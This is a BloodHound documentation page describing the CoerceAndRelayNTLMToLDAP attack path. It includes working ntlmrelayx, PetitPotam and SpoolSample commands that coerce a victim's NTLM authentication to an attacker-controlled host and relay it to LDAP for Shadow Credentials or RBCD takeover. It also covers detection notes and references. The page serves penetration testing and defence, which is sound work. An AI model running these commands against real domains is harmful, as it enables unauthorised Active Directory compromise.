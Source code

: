 ```yaml
---
title: CoerceAndRelayNTLMToLDAP
description: The target computer can be coerced to authenticate via NTLM to an LDAP service on a domain controller that does not require LDAP signing, allowing an attacker to abuse Active Directory permissions or obtain administrative access to the target computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that the target computer has the WebClient service running. This enables an attacker with "Authenticated Users" access to trigger WebClient-based coercion from the target computer to their attacker-controlled host via NTLM. Since the connection originates from the WebClient instead of SMB, the attacker can relay the authentication attempt to the LDAP service of a domain controller that does not require LDAP signing. This relay can be used to abuse Active Directory permissions or obtain administrative access to the target computer using Resource-Based Constrained Delegation (RBCD) or Shadow Credentials.

## Abuse Info

### Linux

1. Start the Relay Server

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to LDAP and perform a Shadow Credentials attack against the target computer:

   ```bash
   ntlmrelayx.py -t ldap://<Domain Controller IP> --shadow-Credentials
   ```

1. Coerce the Target Computer

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   Example:

   ```bash
   petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS@PORT/file.txt" "VICTIM_IP"
   ```

### Windows

1. Start the Relay Server

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. Coerce the Target Computer

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods). Examples of tools include:
   
   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV connection string format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   Example:

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the blog post: [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9).

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
